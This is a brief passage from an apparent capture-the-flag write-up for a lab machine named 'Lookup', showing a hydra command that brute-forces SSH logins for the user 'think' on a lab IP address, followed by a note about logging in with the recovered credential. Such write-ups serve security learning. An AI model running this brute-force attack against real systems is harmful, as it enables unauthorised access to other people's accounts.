 let's save it and brute force the think user.

```bash
hydra -l think -P passwords.txt ssh://10.10.55.65
```

![Screenshot](/assets/img/Lookup/recovery%202.png)

let's login using this credinitial then:
